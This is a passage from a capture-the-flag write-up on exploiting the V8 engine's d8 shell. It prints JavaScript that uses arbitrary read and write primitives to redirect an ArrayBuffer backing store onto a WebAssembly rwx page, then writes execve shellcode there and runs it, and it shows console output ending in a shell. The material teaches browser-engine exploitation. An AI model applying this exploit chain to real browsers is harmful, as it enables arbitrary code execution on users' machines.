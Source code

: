 ```asm
0x0000555555661000 0x0000555555662000 0x000000000010a000 rw- /home/d4mian/Pwning/v8/out.gn/x64.debug/d8
0x0000555555662000 0x0000555555747000 0x0000000000000000 rw- [heap]

 -- snip -- 

```

As we can see, we have the `rwx` segment at `0x0000379395694000`, with some trial and error I found out that the using `arb_read` to the read data from the address `wasm_instance + 0x68` shows us the address of the `rwx_page`, with this on hand and the power of `arb_write` we can write to the desirable address.\

Now, in order to write to the address, we have to write the initial value to the `backing_store` of the array, which is located at the address `&JSArray + 0x14` which you can find with the debug version of the `d8` binary. One more thing, we need to consider is to use the `DataView` and `ArrayBuffer` as this will help you in overwriting the address with the desired value, in short these two functions allows you to write the data in binary format using the `ArrayBuffer`.

I am using the `execve` shellcode, since CTF is long over I can't execute `/chal/flagprinter`, poor me.

The exploit now looks like:-

```js

var arr_buf = new ArrayBuffer(0x100);
var dataview = new DataView(arr_buf);

var arr_buf_addr = addrof(arr_buf) & 0xffffffffn;;
var back_store_addr = arb_read(arr_buf_addr + 0x14n);

console.log("[+] ArrayBuffer address: 0x" + arr_buf_addr.toString(16));
console.log("[+] Back store pointer: 0x" + back_store_addr.toString(16));

arb_write(arr_buf_addr + 0x14n, rwx);

var shellcode = [0x6a, 0x68, 0x48, 0xb8, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x62, 0x61, 0x73, 0x50, 0x48, 0x89, 0xe7, 0x31, 0xd2, 0x31, 0xf6, 0x6a, 0x3b, 0x58, 0x0f, 0x05]



for (let i = 0; i < shellcode.length; i++) {
  dataview.setUint8(i, shellcode[i], true);
}

console.log("[+] Spawning shell");
pwn();
```

Now, running the exploit with the provided binary:-

```asm
d4mian@pwnbox:~/CTFs$ ./d8 ./xpl.js 
[+] Float array map: 0x82438fd
[+] Pointer to array elements: 0x8085e19
[+] Pointer to object array elements: 0x8085d5d
[+] Object array map: 0x824394d
[+] Controlled RW helper address: 0x8086209
[+] Wasm instance address: 0x821218d
[+] RWX section address: 0x196c91043000
[+] ArrayBuffer address: 0x8086bd9
[+] Back store pointer: 0x560bcfd3d640
[+] Spawning shell...
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

```